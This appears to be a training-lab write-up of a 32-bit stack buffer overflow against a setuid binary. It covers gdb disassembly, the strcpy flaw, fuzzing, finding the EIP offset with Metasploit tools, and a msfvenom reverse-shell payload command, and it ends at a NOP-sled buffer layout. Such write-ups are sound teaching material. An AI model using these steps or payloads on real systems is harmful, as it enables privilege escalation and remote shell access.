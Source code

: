 # Skill Asessment
### Examination of the binary
First we can examine the code. 

```nasm
(gdb) disass main
Dump of assembler code for function main:
   0x0000073b <+0>:     lea    ecx,[esp+0x4]
   0x0000073f <+4>:     and    esp,0xfffffff0
   0x00000742 <+7>:     push   DWORD PTR [ecx-0x4]
   0x00000745 <+10>:    push   ebp
   0x00000746 <+11>:    mov    ebp,esp
   0x00000748 <+13>:    push   esi
   0x00000749 <+14>:    push   ebx
   0x0000074a <+15>:    push   ecx
   0x0000074b <+16>:    sub    esp,0xc
   0x0000074e <+19>:    call   0x590 <__x86.get_pc_thunk.bx>
   0x00000753 <+24>:    add    ebx,0x1869
   0x00000759 <+30>:    mov    esi,ecx
   0x0000075b <+32>:    sub    esp,0x4
   0x0000075e <+35>:    push   0x0
   0x00000760 <+37>:    push   0x0
   0x00000762 <+39>:    push   0x0
   0x00000764 <+41>:    call   0x4b0 <setresuid@plt>
   0x00000769 <+46>:    add    esp,0x10
   0x0000076c <+49>:    mov    eax,DWORD PTR [esi+0x4]
   0x0000076f <+52>:    add    eax,0x4
   0x00000772 <+55>:    mov    eax,DWORD PTR [eax]
   0x00000774 <+57>:    sub    esp,0xc
   0x00000777 <+60>:    push   eax
   0x00000778 <+61>:    call   0x68d <leavemsg>
   0x0000077d <+66>:    add    esp,0x10
   0x00000780 <+69>:    sub    esp,0xc
   0x00000783 <+72>:    lea    eax,[ebx-0x175c]
   0x00000789 <+78>:    push   eax
   0x0000078a <+79>:    call   0x4f0 <puts@plt>
   0x0000078f <+84>:    add    esp,0x10
   0x00000792 <+87>:    mov    eax,0x0
   0x00000797 <+92>:    lea    esp,[ebp-0xc]
   0x0000079a <+95>:    pop    ecx
   0x0000079b <+96>:    pop    ebx
   0x0000079c <+97>:    pop    esi
   0x0000079d <+98>:    pop    ebp
   0x0000079e <+99>:    lea    esp,[ecx-0x4]
   0x000007a1 <+102>:   ret
End of assembler dump.
``` 

We can see a leavemsg function so let's disassemble it.

```nasm
 disass leavemsg
Dump of assembler code for function leavemsg:
   0x0000068d <+0>:     push   ebp
   0x0000068e <+1>:     mov    ebp,esp
   0x00000690 <+3>:     push   ebx
   0x00000691 <+4>:     sub    esp,0x804
   0x00000697 <+10>:    call   0x590 <__x86.get_pc_thunk.bx>
   0x0000069c <+15>:    add    ebx,0x1920
   0x000006a2 <+21>:    sub    esp,0x8
   0x000006a5 <+24>:    lea    eax,[ebx-0x178c]
   0x000006ab <+30>:    push   eax
   0x000006ac <+31>:    lea    eax,[ebx-0x178a]
   0x000006b2 <+37>:    push   eax
   0x000006b3 <+38>:    call   0x520 <fopen@plt>
   0x000006b8 <+43>:    add    esp,0x10
   0x000006bb <+46>:    mov    edx,eax
   0x000006bd <+48>:    lea    eax,[ebx+0x50]
   0x000006c3 <+54>:    mov    DWORD PTR [eax],edx
   0x000006c5 <+56>:    lea    eax,[ebx+0x50]
   0x000006cb <+62>:    mov    eax,DWORD PTR [eax]
   0x000006cd <+64>:    test   eax,eax
   0x000006cf <+66>:    jne    0x6ed <leavemsg+96>
   0x000006d1 <+68>:    sub    esp,0xc
   0x000006d4 <+71>:    lea    eax,[ebx-0x1770]
   0x000006da <+77>:    push   eax
   0x000006db <+78>:    call   0x4c0 <printf@plt>
   0x000006e0 <+83>:    add    esp,0x10
   0x000006e3 <+86>:    sub    esp,0xc
   0x000006e6 <+89>:    push   0x1
   0x000006e8 <+91>:    call   0x500 <exit@plt>
   0x000006ed <+96>:    sub    esp,0x8
   0x000006f0 <+99>:    push   DWORD PTR [ebp+0x8]
   0x000006f3 <+102>:   lea    eax,[ebp-0x808]
   0x000006f9 <+108>:   push   eax
   0x000006fa <+109>:   call   0x4e0 <strcpy@plt>
   0x000006ff <+114>:   add    esp,0x10
   0x00000702 <+117>:   lea    eax,[ebx+0x50]
   0x00000708 <+123>:   mov    eax,DWORD PTR [eax]
   0x0000070a <+125>:   sub    esp,0x8
   0x0000070d <+128>:   push   eax
   0x0000070e <+129>:   lea    eax,[ebp-0x808]
   0x00000714 <+135>:   push   eax
   0x00000715 <+136>:   call   0x530 <fputs@plt>
   0x0000071a <+141>:   add    esp,0x10
   0x0000071d <+144>:   lea    eax,[ebx+0x50]
   0x00000723 <+150>:   mov    eax,DWORD PTR [eax]
   0x00000725 <+152>:   sub    esp,0xc
   0x00000728 <+155>:   push   eax
   0x00000729 <+156>:   call   0x4d0 <fclose@plt>
   0x0000072e <+161>:   add    esp,0x10
   0x00000731 <+164>:   mov    eax,0x0
   0x00000736 <+169>:   mov    ebx,DWORD PTR [ebp-0x4]
```

There is the strcpy function which is a vulnerable function.
```nasm
   0x000006fa <+109>:   call   0x4e0 <strcpy@plt>
``` 

### Question 1
![Pasted image 20211212191330](https://user-images.githubusercontent.com/87600765/146047922-233da7e5-d7e7-424e-ad2b-ac9e3717e8c1.png)
The file command is a standard program of Unix and Unix-like operating systems for recognizing the type of data contained in a computer file.
```nasm
htb-student@nixbof32skills:~$ file leave_msg
leave_msg: setuid ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=8694607c1cba3fb3814a144fb014da53d3f3e49e, not stripped
``` 
As we see, the leave_msg file isn  an ELF 32-bit file.
![Pasted image 20211212191510](https://user-images.githubusercontent.com/87600765/146048310-6b9a95cd-85fb-4ab9-a851-1228b4998cf4.png)

### Question 2 
![Pasted image 20211212192100](https://user-images.githubusercontent.com/87600765/146049008-51469577-27e6-49f6-95d6-dc6e5980b3c1.png)
Let's try to dump the cores.
```nasm
(gdb) run $(python -c "print '\x55' * 2500")
Starting program: /home/htb-student/leave_msg $(python -c "print '\x55' * 2500")

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
(gdb) i r
eax            0x0      0
ecx            0x15     21
edx            0x56558158       1448444248
ebx            0x55555555       1431655765
esp            0xffffcbc0       0xffffcbc0
ebp            0x55555555       0x55555555
esi            0xffffcc00       -13312
edi            0x0      0
eip            0x55555555       0x55555555
eflags         0x10282  [ SF IF RF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
(gdb)
``` 
Now we can see that there is a segmentation fault. Then we have to determine the offset. We can use the tool "pattern-create".
```nasm
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500 > pattern.txt
``` 
Then we print the pattern instead of `\x55`.
```nasm
(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3A...<SNIP>...9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2D'")
``` 
The memory adress in eip is: 
```nasm
(gdb) i r eip
eip            0x37714336       0x37714336
``` 
Finally we can determine the offset thanks to the tool "pattern_offset".
```nasm
└─# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x37714336                   130 ⨯
[*] Exact match at offset 2060
```
###### Buffer
![Pasted image 20211212200540](https://user-images.githubusercontent.com/87600765/146049130-329ef7cf-47b0-4f1a-8ebc-cdcef9005d36.png)
![Pasted image 20211212200620](https://user-images.githubusercontent.com/87600765/146049177-93a85c32-c3b2-4f15-a3e4-49f1e5d796c4.png)

### Question 3
![Pasted image 20211212202828](https://user-images.githubusercontent.com/87600765/146049258-d933e449-be47-4806-84f6-3d41f1393584.png)
For overwriting eip we have to send 2064 bytes.
```nasm
2060 + 4 bytes
``` 
```nasm
(gdb) nasm
Breakpoint 1 at 0x74b
(gdb) run $(python -c 'print "\x55" * 2060 + "\x66" * 4')\
``` 
We set a breakpoint at the corresponding function so that the execution stops at this point, and we can analyze the memory's content.
```nasm
(gdb) info proc all
process 2405
warning: target file /proc/2405/cmdline contained unexpected null characters
cmdline = '/home/htb-student/leave_msg'
cwd = '/home/htb-student'
exe = '/home/htb-student/leave_msg'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
        0x56555000 0x56556000     0x1000        0x0 /home/htb-student/leave_msg
        0x56556000 0x56557000     0x1000        0x0 /home/htb-student/leave_msg
        0x56557000 0x56558000     0x1000     0x1000 /home/htb-student/leave_msg
        0xf7ded000 0xf7fbf000   0x1d2000        0x0 /lib32/libc-2.27.so
        0xf7fbf000 0xf7fc0000     0x1000   0x1d2000 /lib32/libc-2.27.so
        0xf7fc0000 0xf7fc2000     0x2000   0x1d2000 /lib32/libc-2.27.so
        0xf7fc2000 0xf7fc3000     0x1000   0x1d4000 /lib32/libc-2.27.so
        0xf7fc3000 0xf7fc6000     0x3000        0x0
        0xf7fcf000 0xf7fd1000     0x2000        0x0
        0xf7fd1000 0xf7fd4000     0x3000        0x0 [vvar]
        0xf7fd4000 0xf7fd6000     0x2000        0x0 [vdso]
        0xf7fd6000 0xf7ffc000    0x26000        0x0 /lib32/ld-2.27.so
        0xf7ffc000 0xf7ffd000     0x1000    0x25000 /lib32/ld-2.27.so
        0xf7ffd000 0xf7ffe000     0x1000    0x26000 /lib32/ld-2.27.so
        0xfffdc000 0xffffe000    0x22000        0x0 [stack]
``` 
the size of the stack space:
```nasm
0xfffdc000 0xffffe000    0x22000        0x0 [stack]
```
![Pasted image 20211212204838](https://user-images.githubusercontent.com/87600765/146049621-61f4b73b-8559-4484-9fd5-092ddd574022.png)

### Question 4
![Pasted image 20211212210026](https://user-images.githubusercontent.com/87600765/146049737-b5ea9e01-861b-4225-8629-3fd204a3f708.png)

#### Shellcode lenght
Now we have to determine the lenght of our shellcode.
```nasm
└─# msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=4444 --platform linux --arch x86 --format c
No encoder specified, outputting raw payload
Payload size: 68 bytes
...<SNIP>...
``` 
We now know that our payload will be about 68 bytes. As a precaution, we should try to take a larger range if the shellcode increases due to later specifications.
Often it can be useful to insert some `no operation instruction` (`NOPS`) before our shellcode begins so that it can be executed cleanly. Let us briefly summarize what we need for this:
1. We need a total of 2064 bytes to get to the eip
2. Here, we can use an additional 100 bytes of NOPS
3. 150 bytes for our shellcode.
```md
   Buffer = "\x55" * (2064 - 100 - 150 - 4) = 1810
   NOPS = "\x90" * 100
   Shellcode = "\x44" * 150
   EIP = "\x66" * 4
```
